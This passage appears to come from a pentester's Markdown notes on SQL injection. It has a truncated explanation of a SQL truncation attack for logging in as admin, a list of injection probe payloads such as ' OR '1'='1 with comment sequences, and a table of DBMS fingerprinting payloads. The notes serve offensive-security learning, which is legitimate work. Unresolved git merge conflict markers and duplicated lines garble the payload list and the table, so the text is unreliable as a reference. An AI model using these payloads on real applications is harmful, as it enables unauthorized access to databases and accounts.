 So, instead of storing “admin++++++random’’ as an entry, the database will truncate the second half to fit it in the column (‘’admin +++++’’).

Next time an attacker logs in to the application with the admin account, the database will search for all matching accounts and will consider them valid for logging in. Therefore any entry with username as admin with space or without is a valid entry that can be used to authenticate to the application.

“admin” == ‘admin +++++’




# Identifying SQLi
```sql
'
"
#
;
)
<<<<<<< HEAD:docs/zNew/Web/OWASP/SQLi.md
'
"
#
;
)
=======
>>>>>>> 3def6ed623ff9aca1f86372133bb0275d92d1d9b:zNew/Web/OWASP/SQLi.md
' '
'||'
'+'
' AND '1'='1
' OR '1'='1
' -- -
' OR '1'='1;-- -
[space]-- -
[space]AND 1=1
[space]AND 1=1 -- -
<<<<<<< HEAD:docs/zNew/Web/OWASP/SQLi.md
[space]-- -
[space]AND 1=1
[space]AND 1=1 -- -
=======
>>>>>>> 3def6ed623ff9aca1f86372133bb0275d92d1d9b:zNew/Web/OWASP/SQLi.md
```

* * *


# Identifying Variants

| Order | Payload                        | DBMS       |
|-------|--------------------------------|------------|
| 1     | AND 'foo' 'bar' = 'foobar'	   | MySQL      |
| 2     | AND DATALENGTH('foo') = 3      | MSSQL      |
| 3     | AND TO_HEX(1) = '1'            | PostgreSQL |
| 4     | AND LENGTHB('foo') = '3'       | Oracle     |
| 5     | AND GLOB('foo*', 'foobar') = 1 | SQLite     |
<<<<<<< HEAD:docs/zNew/Web/OWASP/SQLi.md

